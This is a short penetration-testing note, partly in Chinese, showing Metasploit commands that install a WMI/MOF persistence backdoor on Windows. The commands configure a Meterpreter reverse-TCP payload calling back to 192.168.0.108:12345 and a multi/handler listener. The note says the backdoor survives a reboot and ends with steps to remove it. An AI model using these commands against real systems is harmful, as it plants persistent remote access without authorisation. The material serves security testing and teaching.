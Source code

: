 	>git clone https://github.com/khr0x40sh/metasploit-modules.git
	>mv metasploit-modules/persistence/mof_ps_persist.rb /usr/share/metasploit-framework/modules/post/windows/
	>reload_all
	>use post/windows/mof_ps_persist
	>set payload windows/x64/meterpreter/reverse_tcp
	>set lhost 192.168.0.108
	>set lport 12345
	>set session 1
	>run
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/453.png)

	>use exploit/multi/handler
	>set payload windows/x64/meterpreter/reverse_tcp
	>set lhost 192.168.0.108
	>set lport 12345
	>set exitonsession false
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/454.png)

	重启后还会上线
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/455.png)

	清除后门，进入meterpreter，resource 生成的rc文件
	停止MOF
	>net stop winmgmt
	删除文件夹：C:\WINDOWS\system32\wbem\Repository\
	>net start winmgmt 